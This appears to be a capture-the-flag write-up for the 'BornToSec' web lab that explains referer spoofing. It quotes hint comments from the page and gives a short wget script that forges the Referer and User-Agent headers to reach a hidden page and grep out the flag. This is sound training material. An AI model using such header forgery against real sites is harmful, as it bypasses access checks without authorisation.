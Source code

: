 # Referer Spoofing

There is the link with `© BornToSec` title at the bottom of each page.

From inspecting this page we have two clues about vulnerability.

```html
<!--
    You must comming from: "https://www.nsa.gov/" to go to the next step.
-->
...
<!--
    Let's use this browser: "ft_bornToSec". It will help you a lot.
-->
```

The first one lead us to 'Referer' HTTP-header substitution. The second one tells us to change 'User-agent' header as well.

To exploit this vulnerability we're using `wget` with `--user-agent` and `referer` options. This manipulation could also be done with `curl`.

<details>
    <summary>Shell script that does the trick</summary>

```bash
#!/bin/bash


OUTPUT_FILE=./index.html
wget -q --user-agent='ft_bornToSec' \
     --referer 'https://www.nsa.gov/' \
     --output-document=$OUTPUT_FILE \
"http://$IPADDR/index.php?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c"

cat $OUTPUT_FILE | grep flag
```

</details>

## References
Follow [this](https://en.wikipedia.org/wiki/Referer_spoofing) page for more details.